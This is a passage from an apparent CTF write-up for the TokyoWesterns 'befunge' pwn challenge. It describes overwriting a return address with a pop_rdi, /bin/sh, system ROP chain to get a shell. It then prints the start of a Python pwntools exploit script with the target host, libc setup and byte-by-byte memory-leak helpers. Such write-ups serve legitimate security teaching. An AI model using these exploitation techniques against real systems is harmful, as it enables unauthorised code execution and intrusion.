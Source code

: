 It took me a lot of time and work to do the whole thing, and the method's not elegant. Fortunately, it worked, and I was able to overwrite the return address with the typical x64 ROP chain: `pop_rdi --> bin_sh -->system`. At last, we are able to spawn a shell and get the flag.  
  
```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time
import math

HOST = "pwn1.chal.ctf.westerns.tokyo" 
PORT = 62839
ELF_PATH = "./befunge_patch"
LIBC_PATH = "/lib/x86_64-linux-gnu/libc.so.6"

# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
context.log_level = 'INFO'

elf = ELF(ELF_PATH)
libc = ELF(LIBC_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def str_addr(s, f): # search string address in file
    result = list(f.search(s+"\x00"))
    if not len(result): # no result
        return None
    else:
        return result[0]

def leak_one_byte(off_1, off_80):
    r.sendline(str(off_1))
    r.sendline(str(off_80))
    ret = r.recvuntil(" ")
    return int(ret)

def leak_addr(base, off_80, name=None):
    ret_addr = 0
    cnt = 0
    for i in xrange(base, base+6):
        print "leaking %s byte : %d" % (name, cnt+1)
        ret = leak_one_byte(i, off_80)
        ret_addr = ret_addr | ((ret&0xff) << 8*cnt)
        cnt += 1

    return ret_addr

```